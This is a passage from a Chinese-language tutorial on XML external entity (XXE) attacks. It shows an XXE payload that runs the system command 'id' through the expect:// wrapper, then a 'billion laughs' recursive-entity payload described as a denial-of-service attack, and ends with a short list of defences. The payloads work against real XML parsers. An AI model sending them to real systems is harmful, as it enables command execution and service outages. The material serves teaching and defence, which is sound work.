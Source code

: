 ```
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <description>&xxe;</description>
   </core>
</catalog>
```

### DDOS 攻击

```
<?xml version="1.0"?>

<!DOCTYPE lolz [

  <!ENTITY lol "abc">

  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">

  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">

  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">

  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">

  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">

  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">

  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">

  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">

]>

<lolz>&lol9;</lolz>
```

该攻击通过创建一项递归的 XML 定义，在内存中生成十亿个”abc”字符串，从而导致 DDoS 攻击。原理为：构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成了拒绝服务器攻击。

## 防御

* 禁用外部实体
* 过滤和验证用户提交的 XML 数据
* 不允许 XML 中含有任何自己声明的 DTD
* 禁用 XInclude

## 参考文章
